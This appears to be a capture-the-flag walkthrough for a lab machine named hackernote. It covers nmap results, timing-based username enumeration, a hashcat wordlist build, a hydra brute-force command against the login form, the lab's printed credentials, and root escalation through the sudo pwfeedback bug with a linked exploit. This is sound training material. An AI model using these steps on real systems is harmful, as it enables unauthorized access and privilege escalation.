








# hackernote


## nmap


PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 10:a6:95:34:62:b0:56:2a:38:15:77:58:f4:f3:6c:ac (RSA)
|   256 6f:18:27:a4:e7:21:9d:4e:6d:55:b3:ac:c5:2d:d5:d3 (ECDSA)
|_  256 2d:c3:1b:58:4d:c3:5d:8e:6a:f6:37:9d:ca:ad:20:7c (ED25519)
80/tcp   open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Home - hackerNote
8080/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Home - hackerNote
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


## httpenum

the website is vulnerable to time based attack

- if there is a user the website will take significantly longer time to process the password




- user man is valid and other user is invalid
- user man took more than 2 seconds to get the result

we can enumerate the timings to get the username that might be valid




- using that technique we got a user with significantly more time than others


- got the hint for the password its favourite color and a letter.


## exploit


#### hashcat combinator


- hashcat combinator is a great tool for combining wordlist



```
./combinator.bin colors.txt numbers.txt
```

we have a new wordlist which we can use for attacking


#### hydra




````
hydra -l james -P wordlist <ip> http-post-form "/api/user/login:username=^USER^&password=^PASS^:Invalid Username Or Password"
````


#### credentials

username	james

password	blue7


## ssh


- after logging in we got our ssh credentials




#### credentials

username 			james

password			 dak4ddb37b


#### shell




## post


- now we need to get root
- sudo -l does not get us anything 
- but we see astriek when entering password
- condition to make this executable is that we need pwnfeedback enabled




there is a vulnerability called pwnfeedback

[link for the exploit](https://raw.githubusercontent.com/saleemrashid/sudo-cve-2019-18634/master/exploit.c)

- used gcc to compile the code 
- executed it on remote machine


#### root

